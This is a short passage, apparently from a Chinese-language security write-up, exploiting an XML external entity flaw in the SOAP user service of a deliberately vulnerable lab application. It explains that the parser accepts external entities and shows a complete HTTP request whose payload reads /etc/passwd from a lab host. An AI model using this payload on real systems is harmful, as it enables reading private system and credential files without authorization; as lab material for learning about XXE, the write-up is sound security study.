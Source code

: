 [![](assets/1705886707-928fb1c6241668cc0497591a850e9819.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120115712-fdcf0ed0-b747-1.png)  
SOAP 服务器用来解析该请求的 XML 库允许使用外部实体，因此我们可以利用它从 SOAP 服务中读取任意文件

```bash
POST /dvwsuserservice/ HTTP/1.1
Host: 192.168.204.160
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4164.0 Safari/537.36 autochrome/red
Connection: close
SOAPAction: Username
Content-Type: text/xml;charset=UTF-8
Content-Length: 579

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ <!ENTITY exploit SYSTEM "file:///etc/passwd"> ]>
<soapenv:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:urn="urn:examples:usernameservice">
   <soapenv:Header/>
   <soapenv:Body>
      <urn:Username soapenv:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
         <username xsi:type="xsd:string">&exploit;</username>
      </urn:Username>
   </soapenv:Body>
</soapenv:Envelope>
```

[![](assets/1705886707-547d206bc7e9bae04224608976fc9354.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120115730-08aea14e-b748-1.png)
